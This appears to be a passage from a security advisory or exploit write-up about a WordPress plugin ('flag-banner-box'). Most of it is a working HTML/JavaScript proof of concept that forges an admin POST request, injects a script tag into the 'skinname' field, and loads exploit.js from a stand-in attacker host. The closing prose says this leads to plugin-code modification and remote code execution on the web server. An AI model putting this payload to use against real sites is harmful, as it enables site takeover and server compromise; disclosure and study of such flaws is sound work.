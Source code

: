             <script>
                function getXMLHttpRequestObject() {
                    var ref = null;
                    if (window.XMLHttpRequest) { // For recent browsers.
                        ref = new XMLHttpRequest();
                    } else if (window.ActiveXObject) { // Older IE 6,7,8
                        ref = new ActiveXObject("MSXML2.XMLHTTP.3.0");
                    }
                    return ref;
                }

                function send_payload(payload) {
                    var TARGET_URL = "http://localhost/wordpress/wp-admin/admin.php?page=flag-banner-box&playlist=null&mode=edit";
                    var req = null;

                    req = getXMLHttpRequestObject();
                    req.onreadystatechange = function() {
                        if (req.readyState == 4 && req.status == 200) {
                            document.getElementById("success_indicator").innerHTML = "payload sent.";
                        }
                    }
                    req.open("POST", TARGET_URL, true);
                    req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
                    /* Build the post data */
                    var pd =  {"playlist_title": "sometitle",
                               "playlist_descr": "some_description",
                               "mode": "save",
                               "skinname": '" ' + payload,
                               "item_array[0]": "notimportant"};

                    postdata = "";
                    for(var key in pd) {
                        postdata += (key + "=" + pd[key] + "&");
                    }
                    postdata = postdata.substr(0, postdata.length-1); // rstrip the last &

                    req.send(postdata);
                }
            </script> 
        </head>

        <body>
            <script>var payload = "<script type="text/javascript" src="http://atacker.com/exploit.js">//Nothin here</script>"; send_payload(payload);</script>
            <div id="success_indicator"></div>
        </body>
    </html>

Then as soon as the payload is executed, the following exploit code is
loaded from another site which actually  
does the evil stuff [See code above, the last lines are probably the
most interesting]. It basically uses the upload functionality in
wordpress to change plugincode.  
This leads to remote code execution and the worst case scenario
happened: An attacker can issue system() calls with the permissions  
of the web server.
